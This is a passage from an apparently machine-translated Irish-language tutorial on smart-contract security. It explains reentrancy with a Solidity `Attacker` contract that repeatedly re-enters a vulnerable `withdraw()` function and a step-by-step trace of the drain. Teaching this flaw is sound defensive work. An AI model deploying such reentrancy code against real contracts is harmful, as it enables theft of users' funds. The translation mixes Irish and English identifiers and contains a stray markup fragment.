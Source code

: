 ```solidity
        balances[msg.sender] = 0;
    }
}
```

Nochtann an conradh seo feidhm `aistarraing()` chun ligean d’úsáideoirí ETH a bhí i dtaisce sa chonradh roimhe seo a aistarraingt. Nuair a dhéantar aistarraingt a phróiseáil, déanann an conradh na hoibríochtaí seo a leanas:

1. Seiceálann sé iarmhéid ETH an úsáideora
2. Seolann cistí chuig an seoladh glaonna
3. Athshocraíonn siad a n-iarmhéid go 0, rud a choscann aistarraingtí breise ón úsáideoir

Leanann an fheidhm `withdraw()` i gconradh `Victim` patrún “seiceálacha-idirghníomhaíochtaí-éifeachtaí”. Déanann sé _seiceáil_ má shásaítear na coinníollacha atá riachtanach don fhorghníomhú (i.e., tá cothromaíocht dhearfach ETH ag an úsáideoir) agus déanann sé an _idirghníomhaíocht_ em> trí ETH a sheoladh chuig seoladh an ghlaoiteora, sula gcuirtear _éifeachtaí_ an idirbhirt i bhfeidhm (i.e. iarmhéid an úsáideora a laghdú).

Má ghlaoitear `aistarraing()` ó chuntas faoi úinéireacht sheachtrach (EOA), feidhmíonn an fheidhm mar a bhíothas ag súil leis: seolann `msg.sender.call.value()` ETH chuig an nglaoiteoir. Mar sin féin, más cuntas conartha cliste é `msg.sender` glaonna `aistarraing()`, seolfar cistí trí úsáid a bhaint as `msg.sender.call.value()` agus spreagfar cód atá stóráilte ag an seoladh sin a rith.

Samhlaigh gurb é seo an cód a úsáidtear ag seoladh an chonartha:

```solidity
 contract Attacker {
    function beginAttack() external payable {
        Victim(victim_address).deposit.value(1 ether)();
        Victim(victim_address).withdraw();
    }

    function() external payable {
        if (gasleft() > 40000) {
            Victim(victim_address).withdraw();
        }
    }
}
```

Tá an conradh seo deartha chun trí rud a dhéanamh:

1. Glacadh le héarlais ó chuntas eile (EOA an ionsaitheora is dócha)
2. Taisce 1 ETH isteach sa chonradh Íospartach
3. Aisarraingt an 1 ETH atá stóráilte sa chonradh cliste

Níl aon rud mícheart anseo, ach amháin go bhfuil feidhm eile ag `Ionsaitheoir` a ghlaonn `aistarraing()` sa `Victim` arís má bhíonn an gás atá fágtha ón gcód ` msg.sender.call.value` níos mó ná 40,000. Tugann sé seo an cumas do `Ionsaitheoir` `Íospartach` a iontráil arís agus tuilleadh cistí a aistarraingt _roimh_ an chéad agairt `aistarraing` críochnaithe. Breathnaíonn an timthriall mar seo:

```solidity
- Attacker's EOA calls `Attacker.beginAttack()` with 1 ETH
- `Attacker.beginAttack()` deposits 1 ETH into `Victim`
- `Attacker` calls `withdraw() in `Victim`
- `Victim` checks `Attacker`’s balance (1 ETH)
- `Victim` sends 1 ETH to `Attacker` (which triggers the default function)
- `Attacker` calls `Victim.withdraw()` again (note that `Victim` hasn’t reduced `Attacker`’s balance from the first withdrawal)
- `Victim` checks `Attacker`’s balance (which is still 1 ETH because it hasn’t applied the effects of the first call)
- `Victim` sends 1 ETH to `Attacker` (which triggers the default function and allows `Attacker` to reenter the `withdraw` function)
- The process repeats until `Attacker` runs out of gas, at which point `msg.sender.call.value` returns without triggering additional withdrawals
- `Victim` finally applies the results of the first transaction (and subsequent ones) to its state, so `Attacker`’s balance is set to 0
```